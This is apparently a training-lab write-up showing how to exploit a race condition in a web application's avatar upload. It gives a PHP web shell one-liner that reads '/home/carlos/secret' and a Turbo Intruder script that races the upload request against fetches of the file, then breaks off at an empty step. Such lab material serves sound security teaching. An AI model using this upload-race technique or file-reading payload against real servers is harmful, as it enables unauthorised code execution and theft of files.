 ## Solution steps

- Open Burp Suite and set-up proxy.
- Keep the intercept off.
- Log in using the given credentials and upload an image as your avatar, then go back to your account page.
- In Burp, go to Proxy > HTTP history and notice that your image was fetched using a GET request to /files/avatars/<YOUR-IMAGE>.
- On your system, create a file called exploit.php containing a script for fetching the contents of Carlos's secret. For example: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Attempt to upload the script as your avatar. Observe that the server appears to successfully prevent you from uploading files that aren't images.
- If you haven't already, add the Turbo Intruder extension to Burp from the BApp store.
- Right-click on the POST /my-account/avatar request that was used to submit the file upload and select Extensions > Turbo Intruder > Send to turbo intruder. The Turbo Intruder window opens.
- Copy and paste the following script template into Turbo Intruder's Python editor:
```python
  def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
- 
